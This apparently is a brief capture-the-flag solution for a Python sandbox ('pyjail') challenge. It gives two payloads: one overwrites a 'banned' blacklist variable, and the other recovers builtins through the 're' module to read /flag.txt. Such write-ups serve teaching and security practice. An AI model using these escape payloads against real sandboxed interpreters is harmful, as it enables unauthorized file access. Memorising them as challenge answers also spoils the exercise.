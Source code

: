 # Solution

Send payload 1 to overwrite the banned global variables. Send payload 2 to exploit the overwritten global variable to retrieve `flag.txt` using builtins.
- Payload 1: `globals['banned'] = 'string_we_are_never_going_to_use'`
- Payload 2: `__builtins__ = globals['re'].__builtins__; print(__builtins__['open']('/flag.txt', 'rb').read());
EOL`


